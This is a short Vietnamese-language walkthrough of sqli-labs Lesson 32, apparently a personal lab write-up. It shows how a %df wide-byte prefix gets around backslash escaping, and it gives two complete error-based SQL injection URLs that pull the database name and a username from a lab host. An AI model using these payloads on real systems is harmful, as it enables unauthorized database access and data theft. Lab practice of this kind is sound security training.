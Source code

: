 # Less 32

Ta thấy đề bài vẫn cho truyền ID vào URL

![](../images/sqli-labs/Less-32/01.png)

Thử truyền vào

![](../images/sqli-labs/Less-32/02.png)

Tôi thử tìm cách để injection

![](../images/sqli-labs/Less-32/03.png)

Tôi thấy ở đây đã thêm các ký tự `\` trước những ký tự đặc biệt để loại bỏ các ký tự này trước những ký tự đặc biệt. Ở đây tôi sử dụng ký tự đặc biệt để bỏ qua ký tự `/`. Ta thêm ký tự `%df` trước ký tự đặc biệt như dấu nháy.

![](../images/sqli-labs/Less-32/04.png)

Thử lại

![](../images/sqli-labs/Less-32/05.png)

Ta thấy có lỗi hiển thị lên màn hình nên chúng ta có thể khai thác được thông tin của DB thông qua đây

```
http://192.168.84.233/sqli-labs/Less-32/?id=1%df%27%20and%20(SELECT%200%20FROM%20(SELECT%20count(*),%20CONCAT((select%20database()),%200x23,%20FLOOR(RAND(0)*2))%20AS%20x%20FROM%20information_schema.columns%20GROUP%20BY%20x)%20y)%20--+
```

![](../images/sqli-labs/Less-32/06.png)

```
http://192.168.84.233/sqli-labs/Less-32/?id=1%df%27%20and%20(SELECT%200%20FROM%20(SELECT%20count(*),%20CONCAT((select%20username%20from%20users%20limit%200,1),%200x23,%20FLOOR(RAND(0)*2))%20AS%20x%20FROM%20information_schema.columns%20GROUP%20BY%20x)%20y)%20--+
```

![](../images/sqli-labs/Less-32/07.png)